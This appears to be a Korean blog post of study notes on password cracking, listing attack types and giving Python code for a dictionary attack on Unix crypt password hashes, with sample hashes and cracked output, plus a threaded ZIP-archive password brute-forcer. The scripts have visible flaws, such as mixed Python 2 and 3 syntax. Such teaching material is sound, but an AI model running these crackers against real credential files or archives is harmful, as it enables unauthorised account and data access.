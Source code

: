 ```yaml
---
title: "Cryptography: 패스워드 크래킹"
last_modified_at: 2020-10-13T00:26:02-05:00
categories:
  - Cryptography
tags:
  - 암호학
  - 파이썬
  - 암호와 해킹 1판
toc: true 
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true 
author_profile: true 
read_time: false 
---
```


`이 게시물은 화이트해커를 위한 암호와 해킹 1판을 참고하여 작성하였습니다.`

---
### 시스템 패스워드 크래킹의 유형
---

* 수동적 온라인 공격: 시스템에 직접 연결하거나 통신하지 않고 패스워드 크래킹 (유선 스니핑, 중간자 공격)
* 능동적 온라인 공격: 시스템에 직접 연결, 접속하여 패스워드를 추측하여 입력 (트로이 목마, 스파이웨어, 키로거 활용)
* 오프라인 공격: 공격자가 시스템이 관리하는 패스워드 파일에 접근하여 공격 (무차별 대입 공격, 사전 공격, 음절 공격, 레인보우 테이블 공격)
{: .notice}

---
### 유닉스 패스워드 크래킹
---

```python
def findPass(passhash, dictfile):  
    salt = passhash[3:5]    #passhash의 3,4번째 문자가 salt
    with open(dictfile, 'r') as dfile:        #with ~ as를 사용하면 자동으로 close 됨
        for word in dfile.readlines():
            word = word.strip('\n')
            cryptwd = ccrypt.crypt(word, salt) #패스워드 해시를 계산
            if cryptwd == passhash[3:]: #3번째부터 패스워드 해시			
                return word
    return ''  #일치하는 단어가 없으면 빈 문자열을 리턴
	
def main():
    dictfile = 'dictionary.txt'
    with open('passwords.txt', 'r') as passFile:
        for line in passFile.readlines():   
            data = line.split(':')       
            user = data[0].strip()      #data[0]은 사용자 아이디
            passwd = data[1].strip()  #data[1]은 패스워드 해시값
            word = findPass(passwd, dictfile) #word가 빈 문자열이 아니면 패스워드를 찾은 것.
            if word:
                print('Found Password: ID [%s] Password [%s]' %(user, word))
            else:
                print('Password Not Found!')
if __name__ == '__main__':
    main()
```

```
#dictionary.txt
apple
python
password
12345
secret
welcome
admin
pineapple
other
login
pokemon
iloveyou
```

```
#passwords.txt
root : $1$a3gSE1RAj6522:14923: 0 : 99999 : 7 :      :      :
samsjang:$1$zfti6chVSQLlQ:14945: 0: 99999: 7:        :      :
```

```
Found Password: ID [root] Password [iloveyou]
Found Password: ID [samsjang] Password [python]
```

---
### ZIP 파일 패스워드 크래킹
---


```
import zipfile  
from threading import Thread  
  
def crackzip(zipfile, passwd):  
    try:  
        zfile.extractall(pwd = passwd)  
        print "zip file extracted successfully!! PASS = [%s]" %passwd.decode()  
        return True  
    except:  
        pass  
    return False  
  
if __name__ == '__main__':  
    dictfile = 'dictionary.txt'  
    zipfilename = 'zipfile.zip'  
    zfile = zipfile.ZipFile(zipfilename, 'r')  
    f = open(dictfile, 'r')  
  
    for line in f.readlines():  
        passwd = line.strip('\n')  
        t = Thread(target = crackzip, args = (zfile, passwd.encode('utf-8')))  
        t.start()  
```